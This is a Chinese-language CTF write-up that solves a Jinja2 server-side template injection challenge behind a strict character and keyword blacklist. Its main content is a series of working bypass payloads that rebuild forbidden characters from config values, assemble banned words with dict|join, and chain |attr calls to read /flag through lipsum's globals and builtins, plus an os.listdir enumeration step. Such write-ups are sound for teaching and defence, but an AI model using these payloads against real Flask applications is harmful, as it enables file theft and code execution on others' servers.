


# EasySSTI（Hard）— 不用一个标点，读出 flag

> **题目类型**：Web — Jinja2 SSTI，全字符封锁
>
> **难度**：Hard　**平台**：CTF2
>
> **Flag**：`CTF2{c932f645-1d11-456d-bc1b-ede4eb8c0e0f}`

---

## 题目概述

进去是个登录页。**先试了个弱口令，直接就进来了。**

页面就一个 `Hello, admin`，别的什么都没有。**但题名就叫 SSTI，那还能有什么地方——`username` 被打印出来了。**

换成 `{{7*7}}` 返回 **49**，实锤：**注入点就是 `username`，Jinja2 模板注入。**

---

## 解题过程

### Step 1：确认环境和注入点

```text
{{7*7}}      →  49
{{config}}   →  <Config {...}>      确认 Jinja2 + Flask
```

### Step 2：摸 WAF

试 `{{''.__class__}}`，回的是：

```text
' in blacklist
```

**然后就是一直试、一直试，最后发现封了这些：**

```
字符    空格、Tab、'、"、_、.、[、]  以及单独的 |
词      os / popen / request / class / mro / globals / builtins /
        import / read / system / eval / args / cookies / init / getitem
```

**放行的是：**

```
~ ( ) , : = * + - / % { } 换行 \v \f
attr join batch first last list items get open dict config lipsum self
```

**`一穷二白`——没有引号、没有下划线、没有点、没有方括号，连空格都没有。**

**但 `(` `)` `~` `{}` 还在，所以还有得打。**

### Step 3：空格没了，用 VT

**`` 这种语句必须有空白分隔。空格和 Tab 都被拦了，那就找**别的空白字符**。**

```
VT  0x0B   ✓ 能用
FF  0x0C   ✓ 能用
LF  0x0A   ✓ 能用
Tab 0x09   ✗ 拦
空格 0x20  ✗ 拦
```

**于是 `{{x}}` → 49，语句标签全套复活。**

> **这里踩过一个坑：**`0x0B`、`\x0b`、`\s` 这三个都**不是**那个字符本身。
>
> ```text
> 0x0B    数字的十六进制写法（等于 11）——{{0x0B}} 渲染出来是 11
> \x0b    字符串里的转义序列
> \s      正则里的"空白类"，根本不是字符
> ```
>
> **payload 里要的是**那个字节本身**。POST 的 body 是 urlencoded，所以写成 `%0B` 最省事。**

### Step 4：把 `_` 造出来（config 字符农场）

**这一段是整题的核心。先看两个回显：**



```jinja
{{config|list}}                →  ['ENV', 'DEBUG', 'TESTING', ..., 'MAX_COOKIE_SIZE']
{{config|list|last}}           →  MAX_COOKIE_SIZE
{{config|list|last|batch(4)}}  →  ['M','A','X','_'], ['C','O','O','K'], ['I','E','_','S'], ['I','Z','E']
```



**`|batch(4)` 把字符串每 4 个切成一组，第一组是 `['M','A','X','_']`。**

**我们只有 `|first` 和 `|last` 两个取法，所以只能拿"每组的第一个"或"每组的最后一个"。`_` 正好在第一组的末尾：**

```jinja
{{config|list|last|batch(4)|first}}       →  ['M','A','X','_']
{{config|list|last|batch(4)|first|last}}  →  '_'
```

**由此得到通用公式：**

```text
第 n 个字符  =  |list|batch(n)|first|last
```

**这就是 `[n]` 被封之后的替代品——不用引号、不用方括号。**

### Step 5：把 `/` 也造出来

**`/` 不在键名里，在**值**里：`config` 里有一项 `APPLICATION_ROOT` 的值是 `/`。**

**要把"键值对"拿出来，得调 `config.items()`——但点被拦了，只能 `|attr(字符串)() `。**

**而"items"这个词也写不出来（引号没了），于是用 `dict` 造词：**

```jinja
dict(items=1)              →  {'items': 1}
dict(items=1)|join         →  items          ← 字典 join 出来是它的键
config|attr(dict(items=1)|join)       →  <built-in method items ...>
config|attr(dict(items=1)|join)()     →  dict_items([('ENV','production'), ...])
```

**拿到键值对之后，`/` 在第 10 对 `('APPLICATION_ROOT', '/')` 的第二个位置：**

```jinja
{{config|attr(dict(items=1)|join)()|batch(10)|first|last|last}}   →  '/'
```

**`batch(10)|first` 取前 10 对，`|last` 取第 10 对，再 `|last` 取这一对的第二个元素 = `/`。**

### Step 6：把 `.` 造出来

**`.` 也能算：`1/2` 是 `0.5`，里面有现成的点。**

```jinja
{{1/2}}                              →  0.5
{{(1/2)|string|batch(2)|first|last}} →  '.'
```

### Step 7：用 `dict` + `~` 拼禁词

**`globals`、`builtins`、`read`、`os`、`open`……这些词不能连着出现，拆开拼：**

```jinja
dict(gl=1)|join ~ dict(obals=1)|join     →  globals
dict(built=1)|join ~ dict(ins=1)|join    →  builtins
dict(re=1)|join ~ dict(ad=1)|join        →  read
dict(o=1)|join ~ dict(s=1)|join          →  os
dict(open=1)|join                        →  open（不封，直接用）
dict(get=1)|join                         →  get（不封）
```

**注意 `~` 是**字符串拼接**：`{{1~2}}` → `'12'`，而 `{{1+2}}` → `3`。**

**也注意别拼错：`gl` + `obals` = `globals`，不是 `gl` + `oblas`。**

### Step 8：组装

**把造出来的东西存进变量（`set` 就是赋值，只存不显示）：**

```jinja
                      U  = _
               GS = __globals__
                                         GT = get
              BB = __builtins__
  SL = /
                          RD = read
```

**最后一步：**

```jinja
{{lipsum|attr(GS)|attr(GT)(BB)|attr(GT)(dict(open=1)|join)(SL~dict(flag=1)|join)|attr(RD)()}}
```

**等价于：**

```python
lipsum.__globals__['__builtins__'].get('open')('/flag').read()
```

### Step 9：其实应该先 ls

**WP 里直接写 `/flag` 是"flag 常在根目录"的经验假设。正经做法是先列目录：**

```jinja
lipsum.__globals__['os'].listdir('/')
```

**`os` 居然就在 `jinja2.utils` 的 globals 里（jinja2 内部 import 了 os），所以不用碰 `__import__`（`import` 是禁词，那条路更难）。**

**清单：**

```text
['opt','root','media','home','proc','tmp','lib','boot','etc','lib64','dev','sys','sbin',...]
```

**先看目录、再决定读哪个文件——这个习惯比"猜文件名"值钱。**

---

## 解题思路总结

```text
登录页 → 弱口令进来 → Hello admin → username 被渲染
  → {{7*7}} = 49 → 注入点确认
    → 摸 WAF：空格 Tab ' " _ . [ ] 全封，一批词也封
      → 空白用 VT(0x0B)： 复活
        → _ 从 config 的键里切（batch 取位）
          → / 从 config.items() 的第 10 对里切
            → . 从 1/2 的 0.5 里切
              → 禁词用 dict(单键)|join + ~ 拼
                → set 存变量，|attr() 链代替点和方括号
                  → lipsum.__globals__['__builtins__'].get('open')('/flag').read()
```

### 漏洞原理

**① WAF 拦的是"字面"，引擎看的是"值"**

```text
原文里：dict(gl=1)|join~dict(obals=1)|join
执行时：globals
```

**所有被禁的词、被禁的字符，都能在运行时"算"出来。**

**② 三个被封的字符，三个不同的"农场"**

```text
_   从 config 的键名里切（MAX_COOKIE_SIZE 第 4 个）
/   从 config.items() 的值里切（APPLICATION_ROOT 的值）
.   从 1/2 = 0.5 里切
```

**只要有**任何**一处能产出那个字符，就能把它切出来复用。**

**③ `|attr` 只走 `getattr`，字典取键要靠 `get`**

**Jinja 的 `|attr` 不回落 `__getitem__`，所以 `__globals__['__builtins__']` 得写成 `|attr('get')('__builtins__')`。**

### 关键知识点

| 知识点 | 说明 |
|---|---|
| `` | `set` 是赋值；空白用 VT/FF/LF，空格和 Tab 都被拦 |
| `0x0B` / `\x0b` / `\s` | **都不是那个字节**：数字写法、字符串转义、正则空白类 |
| `%0B` | urlencoded body 里写这个，服务端解码成真字节 |
| `\|batch(n)\|first\|last` | **取第 n 个字符**，替代 `[n]` |
| `dict(k=1)\|join` | 造出字符串 `k`（字典 join = 拼键） |
| `~` | 字符串拼接（`1~2` → `'12'`） |
| `\|attr(name)` | 替代 `.name` |
| `\|attr('get')(key)` | 替代 `[key]`（attr 不回落 getitem） |
| `\|attr(f)()` | 方法必须加 `()` 才是调用 |
| 禁词拆分 | `gl`+`obals`、`built`+`ins`、`re`+`ad`、`o`+`s` |
| `os` 在哪 | `jinja2.utils.__globals__` 里就有，不用 `__import__` |
| 先 ls 再读 | `os.listdir('/')`，别假设文件名 |

---

??? note "完整 payload（实测，␋ = 0x0B）"

    ```jinja
    
    
    
    
    
    
    {{lipsum|attr(GS)|attr(GT)(BB)|attr(GT)(dict(open=1)|join)(SL~dict(flag=1)|join)|attr(RD)()}}
    ```

    **连成一行 390 字符，POST `username` 参数，读 `/flag`。**

??? note "怎么把 VT 发出去"

    **VT 是控制字符，键盘上打不出来，编辑器里也看不见。**

    ```text
    ✗ 直接打 \x0b 四个字符   → TemplateSyntaxError: unexpected char '\'
    ✗ 直接打 0x0B           → 那是数字 11，set 后面没有空白，报 500
    ✓ POST body 写 %0B      → urlencoded，服务端解码成真字节
    ```

    **调试时用编码、别用看不见的字符——否则排错时根本分不清是"没粘上"还是"粘错了"。**

---

??? note "这题踩的坑"

    **① 把 `0x0B` 当成字符**

    `{{0x0B}}` 渲染出来是 **11**——它是数字。三次尝试（`0x0B`、`\x0b`、`\s`）都错在同一个认知上。

    **② 以为 Tab 能用**

    空格被封时第一反应是用 Tab，**但这题 Tab 也在黑名单里**。可用的只有 VT/FF/LF。

    **③ 拼词拼错**

    `dict(gl=1)|join~dict(oblas=1)|join` → `globlas`。差一个字母，整条链断，而且报错是 `Exception`（程序吞了），看不出哪错了。

    **④ `|batch` 返回生成器**

    直接渲染是 `<generator object>`，必须 `|first` 或 `|list`。

    **⑤ 直接假设 `/flag`**

    WP 里写 `/flag` 能成，是因为这环境里确实有。但换个环境，**先 `listdir('/')` 才是稳的。**
